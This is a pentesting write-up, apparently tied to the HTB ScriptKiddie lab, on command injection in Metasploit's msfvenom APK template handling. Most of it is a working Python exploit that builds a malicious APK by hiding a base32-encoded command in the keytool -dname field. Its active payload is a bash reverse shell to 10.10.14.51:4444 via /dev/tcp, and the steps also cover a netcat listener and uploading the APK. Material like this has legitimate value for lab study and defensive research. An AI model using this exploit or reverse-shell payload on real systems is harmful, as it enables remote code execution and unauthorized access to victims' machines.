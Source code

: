 ```yaml
---
layout: post
title: Android APK Command Injection via msfvenom template
description: Android APK Command Injection via msfvenom template
summary: Android APK Command Injection via msfvenom template
tags: [linux,foothold,android]
minute: 3
---
```

## Overview
Attacker can upload malicuous APK file which contains arbritrary commands which then can be used as a template file for `msfvenom` command.

## Versions Tested
* Metasploit 6.0.9

## Steps
* Install jarsigner

```bash
sudo apt install openjdk-11-jdk-headless
```

* Create the following python script

```python
#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b32encode

# Change me
# payload = 'echo "Code execution as $(id)" > /tmp/win'
# payload = 'ping -c 1 10.10.14.51'
# payload = 'bash -i >& /dev/tcp/10.10.14.51/4444 0>&1'
payload = '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.51/4444 0>&1"'

# b32encode to avoid badchars (keytool is picky)
# thanks to @fdellwing for noticing that base64 can sometimes break keytool
# <https://github.com/justinsteven/advisories/issues/2>
payload_b32 = b32encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b32} | base32 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")
```

* Create APK file

```bash
➜  exploit python3 create_evil_apk.py 
[+] Manufacturing evil apkfile

[...redacted...]

[+] Done! apkfile is at /tmp/tmp9kymcdg3/evil.apk

[...redacted...]
➜  exploit 
```

* Open netcat listener
* Upload APK file to web app, generate and wait for reverse connection

![](/spindel/assets/Android%20APK%20Command%20Injection%20via%20msfvenom%20template/F7A1C4F0-2911-4E8E-8F52-AD3D081E1FEC.png)

## References
* HTB ScriptKiddie
* [advisories/2020_metasploit_msfvenom_apk_template_cmdi.md at master · justinsteven/advisories · GitHub](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)
* [Rapid7 Metasploit Framework msfvenom APK Template Command Injection](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)